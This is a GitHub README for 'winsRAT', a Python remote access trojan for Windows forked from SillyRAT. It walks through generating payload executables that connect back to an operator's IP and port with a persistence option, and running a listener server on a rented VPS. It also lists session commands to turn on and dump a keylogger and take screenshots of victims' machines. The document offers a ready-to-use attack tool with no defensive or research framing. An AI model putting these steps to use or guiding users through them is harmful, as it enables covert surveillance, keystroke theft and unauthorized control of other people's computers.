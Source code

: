<h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="SillyRAT" /> <br>    
    winsRAT Under continuous development
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/hash3liZer/SillyRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> Windows RAT</h4>



## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.



### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
$ git clone https://github.com/ThemeHackers/winsRAT
$ cd winsRAT/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>


```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```



```
$ python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}"
$ python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat"
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89173322-b74dc680-d5a1-11ea-8b3b-e5aa83cfbda1.png"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89171634-152cdf00-d59f-11ea-83a6-0344f370113a.png"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://user-images.githubusercontent.com/29171692/89172191-d9464980-d59f-11ea-988c-9986b52642e7.png"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
